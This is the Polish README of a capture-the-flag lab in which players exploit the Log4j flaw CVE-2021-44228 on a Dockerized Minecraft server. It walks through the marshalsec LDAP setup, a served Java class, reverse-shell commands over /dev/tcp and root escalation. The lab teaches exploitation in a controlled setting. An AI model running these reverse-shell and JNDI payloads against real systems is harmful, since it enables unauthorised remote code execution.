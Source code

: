 # minecraft-ctf

## Wprowadzenie
Witamy w `minecraft-ctf`, wyjątkowym wyzwaniu CTF stworzonym specjalnie dla Was! Twoim zadaniem będzie zdobycie flagi, wykorzystując podatność Log4j oraz kilka innych narzędzi, a to wszystko co najlepsze, z użyciem gry, którą chyba każdy zna! Przygotuj się na fascynujące wyzwanie! Owocnego hackowania i udanej zabawy!

## Wymagania
- Docker
- Java (do uruchomienia clienta Minecrafta - jeśli jej nie masz, pobierz i zainstaluj)
- Minecraft Launcher
- NetCat (użyj WSL lub zainstaluj na Windowsie)

## HARD - Ogólny zarys postępowania
1. Uruchom server docker z serverem Minecraft:
   - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
2. Wykorzystaj podatność CVE-2021-44228 do uzyskania reverse shell
   - napoczęty `marshalsec/Dockerfile` może ci ułatwić,
   - tak samo masz `codehttp/` gdzie manipulować trzeba tylko linijką pod "// TODO" w pliku `Log4jRCE.java`
3. Interesujący cię plik jest umieszczony gdzieś na systemie,
4. Rozejrzyj się po plikach w folderze `/server`
5. Po odczytaniu flagi zapraszamy do wspólnej gry :)


## EASY - Krok po kroku

### 0. Uruchamianie SKLauncher
   1. Otwórz SKLauncher, który również znajduje się w repozytorium.
   2. Wybierz tryb offline.
   3. Kliknij '+' obok "Installations Manager".
   4. Wybierz release 1.8.8, zapisz i naciśnij PLAY.

### 1. Uruchomienie serwera Minecraft
   1. **Uruchom Minecraft'a:**
      - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
      - po zbudowaniu kontenera i uruchomieniu, w trybie Multiplayer w grze, dodaj serwer pod adresem 127.0.0.1.

### 2. Wykorzystaj podatnośc CVE-2021-44228 do uzyskania reverse shell


<details>
<summary><b>Informacje o kontenerach</b></summary>
Dwa spośród trzech odpalonych przez Ciebie kontenerów są "Twoje" - jako hacker je kontrolujesz. Nienależącym do Ciebie jest ten hostujący serwer Minecraft'a, do którego chcesz uzyskać dostęp. Pozostałe kontenery pomogą Ci w tej misji.
</details>

   1. **Uruchom serwer LDAP:**
      - `cd marshalsec`
      - znając schemat działania *JNDI* ustaw w Dockerfile adres IP i PORT gdzie będzie wystawiony kod do wykonania na serwerze Minecrafta,
      - `docker build . -t marshal`
      - `docker run -p 1389:1389 -ti marshal`

   2. **Przygotuj kod do połączenia się z reverse shell i wystaw go na serwerze http:**
      - przygotuj sobie `netcat` na hoście (swoim komputerze), może na wsl, a może zainstaluj na Windowsie,
      - potem uruchamiasz nasłuchiwanie komendą `nc -l [port]`,
      - cd `codehttp/`
      - ten kontener służy do serwowania statycznych plików po http,
      - edytuj linijkę w pliku `Log4jRCE.java`,
         1. nie uruchamiaj komendy bezpośrednio, lecz stwórz plik, a potem uruchom go bashem,
         2. dodaj " &" na końcu linijki w pliku gdzie uruchamiasz netcata, dzięki temu zostanie on uruchomiony w tle, a server Minecrafta nie scrashuje,
         3. podpowiedzi:
            1. `bash -c "..."`,
            2. `echo "komenda > plik.sh" ; bash plik.sh`,
            3. `nohup`,
            4. `bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1`,
            5. ` &`,
         4. 
            <details>
            <summary><b> Pokaż komendę:</b></summary>

            ```java
            String[] cmd = {"bash", "-c", "echo 'nohup bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1 &' > /server/script.sh; bash /server/script.sh"};
            ```

            </details>
         .4 
      - podczas budowania obrazu zostanie ten plik do niego skopiowany, a następnie skompilowany,
      - a po uruchomieniu kontenera, będzie serwowany plik "Log4jRCE.class" na porcie *:8888* tego kontenera,
      - zbuduj obraz: `docker build . -t codehttp`,
      - uruchom kontener: `docker run -p 8888:8888 -ti codehttp`,



## Twoje zadanie
Wykorzystaj podatność starej wersji Log4j i inne narzędzia do zdobycia ukrytej flagi. Kod hostowany na httpcode musi być przygotowany i skompilowany. Znajdź i zmodyfikuj bashowy skrypt wykonywany z uprawnieniami roota. Jak uzyskasz uprawnienia roota, możesz odnaleźć w plikach kod, który następnie wpiszesz w serwerze Minecrafta. Jeśli kod okaże się poprawny - gratulacje hackerze/ko ;)

## Przydatne informacje

uzyskania Reverse Shell
```sh
# Nasłuchuj na porcie `5000` na swoim komputerze:
nc -l 5000

# Na komputerze ofiary:
bash -i >& /dev/tcp/[ip kompa na którym jest `nc` włączony]/5000 0>&1

# przykład:
bash -i >& /dev/tcp/172.17.0.1/5000 0>&1
```

### Budowanie obrazu:
```sh
# Stworzenie obrazu kontenera:
docker build . -t <nazwa-obrazu>

# Uruchomienie obrazu z przekierowaniem portów:
docker run -p 25565:25565 -ti <nazwa-obrazu>
```

### Konfiguracja EOL w VSCode
```sh
# Jeśli pracujesz na Windowsie, konieczna może okazać się zmiana EOL - End Of Line:
- Otwórz `Minecraft-Log4j-Exploit/server/start_server.sh`.
- Użyj `CTRL + SHIFT + P`.
- Zmień `EOL sequence`.
```

## Przydatne komendy 

### Docker
```sh
docker build
docker run
docker ps
docker ps -a
docker kill <id>
docker remove <id>
docker image prune
docker container prune
```

## Credits
- [Minecraft-Log4j-Exploit](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit) od Justina Gareya
- [marshalsec](https://github.com/mbechler/marshalsec) od Marcina Bechlera
- [Smallest Docker Image Static Website](https://lipanski.com/posts/smallest-docker-image-static-website) od Vladimira Lipanskiego
- [Mapa Minecraft]() od XXX


TODO:
lf w starcie

wejsc na server mc wpisac komende

jak zatrzymać bash -uzyskania reverse shell?

echo to wbudowana funkcja basha, a nie żadna binarka 

allready allocated port: docker desktop delete container, 

find / -name "*flag*" 2>/dev/null

